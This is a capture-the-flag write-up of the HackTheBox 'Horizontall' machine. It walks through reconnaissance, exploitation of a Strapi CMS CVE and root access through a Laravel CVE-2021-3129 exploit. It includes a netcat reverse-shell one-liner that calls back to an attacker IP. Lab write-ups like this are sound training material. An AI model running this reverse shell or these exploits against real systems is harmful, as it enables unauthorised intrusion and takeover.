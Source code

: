 ```yaml
---
title: Horizontall WriteUp @HackTheBox
author: MBZ0x7
date: 2022-02-06 15:10:00 +0800
categories: [Penetration Testing]
tags: [linux,web,pentest,hackthebox]
pin: false
---
```

Here is my writeup for Horizontall linux machine from HackTheBox, which I pwned few days ago before it gots retired. 
# <font color='red'>Information Gathering </font>
---
```
sudo nmap -sV 10.10.11.105
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Visiting 10.10.11.105 showed horizontall.htb, so I updated ```/etc/hosts```.

![](../../assets/img/posts/3/1.png)

When diging into website source code, I haven't found anything useful. So, immediately I decided to bruteforce subdirectories, which also reveals nothing unfortunately.

Then, I decided to bruteforce subdomains. I used gobuster with one of seclists wordlists, which revealed 1 subdomain. So, as previously I updated my hosts file.
![](../../assets/img/posts/3/2.png)

Here is how the subdomain looked up. Nothing of interest.
![](../../assets/img/posts/3/3.png)
So, I bruteforced subdirectories which showed 2 (/admin and /reviews).
![](../../assets/img/posts/3/4.png)
When visiting /admin subdir, I discovered that I'll be dealing with ```strapi CMS```.
![](../../assets/img/posts/3/5.png)
/reviews is useless.
![](../../assets/img/posts/3/6.png)
Trying default credentials wasn't successful, so I tried to find strapi version to look for CVEs which I found in one JS file. It was ```3.0.0-beta.17.4```.
![](../../assets/img/posts/3/7.png)
Looking into exploit-db, I found 1st and 3rd ones potentially applicable. 
![](../../assets/img/posts/3/8.png)

# <font color='red'>Exploitation</font>
---
I copied exploit-db 1st exploit into current directory using searchsploit command.
![](../../assets/img/posts/3/9.png)
 Then, executed it and used ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.81 4444 >/tmp/f``` to get reverse shell to netcat.
![](../../assets/img/posts/3/10.png)
Then, I found the user flag in developer account home directory.
![](../../assets/img/posts/3/11.png)

# <font color='red'>Privilege Escalation</font>
---
For PrivEsc, I run linPEAS after transfering its shell script file to the compromised machine. 

From its output, ports 8000 and 3306 caught my attention.
![](../../assets/img/posts/3/12.png)
I run ```curl http://127.0.0.1:8000``` and got a Laravel 8 website running locally.
![](../../assets/img/posts/3/13.png)
Visiting exploit-db, I found an RCE exploit that looks promissing. 
![](../../assets/img/posts/3/14.png)
For whatever reason it hasn't worked for me. So, I searched another one and found it 
[here](https://github.com/nth347/CVE-2021-3129_exploit) which got me arbitrary code execution on the root account ,and got the flag.
![](../../assets/img/posts/3/15.png)